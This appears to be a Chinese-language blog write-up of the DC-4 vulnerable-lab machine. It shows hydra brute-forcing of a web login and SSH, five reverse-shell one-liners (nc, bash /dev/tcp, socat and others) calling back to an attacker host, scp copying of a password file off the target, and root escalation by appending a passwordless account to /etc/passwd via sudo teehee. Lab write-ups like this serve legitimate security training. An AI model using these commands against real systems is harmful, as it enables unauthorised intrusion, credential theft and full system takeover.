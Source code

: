 ```yaml
---
layout: post
title: DC-4
subtitle: DC-4
date: 2025-07-10 10:32
author: Kyon-H
header-img: img/post-bg-2015.jpg
tags:
  - 靶场实战
  - DC系列
published: true
---
```

### 信息搜集

扫描网段发现主机 `192.168.163.135`

![image.png](https://img.ghostliner.top/Mpx57R.png)

nmap扫描端口，发现http和ssh端口

![image.png](https://img.ghostliner.top/tisEXh.png)

访问网站尝试登录失败，目录扫描无重要内容，尝试爆破

### 渗透测试

#### 登录密码爆破

bp抓包查看数据格式，可用bp爆破或 `hydra` 爆破

![image.png](https://img.ghostliner.top/xWvdSB.png)

使用 `hydra` 爆破

```shell
hydra 192.168.163.135 -l admin -P /usr/share/wordlists/rockyou.txt http-post-form "/login.php:username=^USER^&password=^PASS^:S=logout" -F
```

![image.png](https://img.ghostliner.top/g5jGyg.png)

获取到密码：happy，登录发现命令执行页面，抓包测试发现存在漏洞

![image.png](https://img.ghostliner.top/qvPHb3.png)

![image.png](https://img.ghostliner.top/Xv5uzD.png)

#### 反弹shell

上传反弹shell命令

```shell
nc -nv 192.168.163.135 -e /bin/bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -nv 192.168.163.132 4444 > /tmp/f
bash -i >& /dev/tcp/192.168.163.132/4444 0>&1
ncat -nv 192.168.163.132 4444 -e /bin/bash
socat TCP:192.168.163.132:4444 EXEC:/bin/bash
```

连接成功

![image.png](https://img.ghostliner.top/6oyW71.png)

查看home目录，发现jim用户下 `old-passwords.bak`文件

![image.png](https://img.ghostliner.top/uSkXiV.png)

直接复制或使用scp传给kali，kali需要开启SSH服务，允许密码登录

```shell
scp -P 2233 old-passwords.bak kali@192.168.163.132:~
# -P 2233 指定SSH端口2233
# :~ 将文件放到目标机用户家目录
```

#### SSH爆破

使用 `hydra` 爆破SSH

```shell
hydra 192.168.163.135 -l jim -P old-passwords.bak ssh
```

![image.png](https://img.ghostliner.top/g6A9al.png)

密码：jibril04，`su jim`切换用户成功，查看mbox文件发现是邮件，查找是否有其他邮件

![image.png](https://img.ghostliner.top/71gQ68.png)

在 `/var/mail` 目录下发现邮件，其中有charles发送给jim的密码邮件

用户名：`charles` <mark>注意是小写</mark>
密码：  `^xHhA&hvim0y`

![image.png](https://img.ghostliner.top/g8ZxjX.png)

`su charles` 切换用户成功后，查看用户目录下无内容，`sudo -l` 尝试提权

![image.png](https://img.ghostliner.top/NMUSqW.png)

#### 提权

teehee提权

```shell
echo "shell::0:0:::/bin/bash" | sudo teehee -a /etc/passwd
su shell
```

![image.png](https://img.ghostliner.top/2Ha8ej.png)
